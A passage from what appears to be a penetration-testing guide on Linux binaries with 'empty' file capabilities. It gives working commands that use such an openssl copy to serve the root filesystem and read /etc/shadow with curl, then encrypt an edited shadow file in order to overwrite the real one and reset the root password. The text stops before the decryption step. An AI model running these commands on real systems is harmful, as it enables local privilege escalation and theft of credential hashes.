 ### The special case of "empty" capabilities

Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process. Or, simply put, if you have a binary that:

1. is not owned by root
2. has no `SUID`/`SGID` bits set
3. has "empty" capabilities set \(e.g.: `getcap myelf` returns `myelf =ep`\)

then that binary will run as root.

Let's say, for example, you find a copy of `openssl` hidden somewhere \(a user's home folder, for example\), you could use it to read any file you wanted, like this:

```bash
# Make some SSL certificate
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# Start our "empty capabilities binary"
# For this example we are
#   uid=1000(mydummyuser) gid=1000(mydummyuser) groups=1000(mydummyuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
# and our openssl elf is in our home directory
#   -rwxr-xr-x. 1 mydummyuser mydummyuser 555296 Apr 1  2019 /home/mydummyuser/openssl
#   /home/mydummyuser/openssl =ep
# First, we change directory to the root filesystem, because openssl's HTTP server
# interprets GET requests relative to pwd/cwd
# That means, if you are in /home/mydummyuser when you start the server,
# and you request 'https://localhost:1337/etc/shadow',
# it would try to server '/home/mydummyuser/etc/shadow' and would fail, as it does not exist
# (and probably even if it did, it would not be what we wanted)
# Also, using '..' in the path, to trick it to access files from parent directories, does not work
cd /
/home/mydummyuser/openssl openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP
# Now we can read any file, with curl (use '-k' to ignore ssl trust issues)
curl -k https://localhost:1337/etc/shadow
```

But we could go a step further: rewrite `/etc/shadow` to change the root password. Since we already have the original file, all we need to do is change the root password, and then abuse openssl's encrypt/decrypt functions.

Assuming we already changed the root password and saved the new file as `/home/mydummyuser/shadow.custom`, we first need to encrypt it \(so we have what to decrypt\):

```bash
# We are reusing the certificates created before
openssl smime -encrypt -aes256 -in /home/mydummyuser/shadow.custom -binary -outform DER -out /home/mydummyuser/shadow.custom.enc /tmp/cert.pem
```

And then we decrypt it with:
